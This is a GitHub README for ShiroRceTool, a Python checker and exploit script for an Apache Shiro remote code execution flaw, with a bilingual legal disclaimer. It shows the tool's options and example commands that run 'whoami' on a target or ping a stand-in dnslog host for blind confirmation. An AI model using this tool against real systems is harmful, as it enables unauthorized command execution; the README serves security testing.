

# ShiroRceTool
Simple checker and exploit for Shiro RCE. (一个简单的Shiro RCE检测和利用脚本。)


## 声明 WARNING
* 仅供安全人员验证,测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)  and local laws.

## 使用方法 Usage

```bash
# USE PYTHON3
$python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```

## 示例 Example

```bash
# Check
python ShiroRceTool.py -m check -u "http://example.com"
# Exec cmd with echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
# Exec cmd with no echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```

